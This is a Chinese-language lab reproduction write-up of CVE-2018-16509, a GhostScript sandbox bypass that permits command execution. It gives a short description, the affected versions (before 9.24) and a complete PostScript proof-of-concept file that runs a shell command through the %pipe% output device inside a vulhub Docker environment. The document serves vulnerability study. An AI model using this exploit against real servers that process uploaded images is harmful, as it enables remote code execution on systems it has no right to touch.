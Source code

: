# （CVE-2018-16509）GhostScript 沙箱绕过（命令执行）漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2951](https://www.zhihuifly.com/t/topic/2951)

# （CVE-2018-16509）GhostScript 沙箱绕过（命令执行）漏洞

## 一、漏洞简介

该漏洞源于在处理/invalidaccess异常时，程序没有正确的检测‘restoration of privilege（权限恢复）’。攻击者可通过提交特制的PostScript利用该漏洞执行代码。

## 二、漏洞影响

Ghostscript 9.24之前版本

## 三、复现过程

上传poc.png，将执行命令`id > /tmp/success && cat /tmp/success`。此时进入容器`docker-compose exec web bash`，将可以看到/tmp/success已被创建：

**poc.png**

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops 
```

![image](img/65618c707cb61995c7788dfb39605ee6.png)

## 参考链接

> https://vulhub.org/#/environments/ghostscript/CVE-2018-16509/